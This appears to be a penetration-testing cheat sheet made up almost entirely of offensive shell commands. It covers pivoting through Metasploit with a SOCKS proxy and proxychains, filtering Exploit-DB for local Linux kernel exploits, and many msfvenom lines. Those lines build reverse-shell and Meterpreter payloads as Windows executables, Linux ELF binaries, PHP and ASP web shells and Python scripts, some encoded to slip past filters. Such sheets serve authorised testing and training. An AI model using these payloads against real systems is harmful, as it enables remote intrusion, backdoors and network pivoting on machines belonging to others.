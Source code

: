 ### Pivoting Using metasploit
{% highlight bash %}
route add IP 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E
{% endhighlight %}

### Exploit-DB search using CSV File
{% highlight bash %}
git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"

cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
{% endhighlight %}

### MSF Payloads
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
{% endhighlight %}

### MSF Linux Reverse Meterpreter Binary
{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
{% endhighlight %}

### MSF Reverse Shell (C Shellcode)
{% highlight bash %}
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
{% endhighlight %}

### MSF Reverse Shell Python Script
{% highlight bash %}
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
{% endhighlight %}

### MSF Reverse ASP Shell
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
{% endhighlight %}
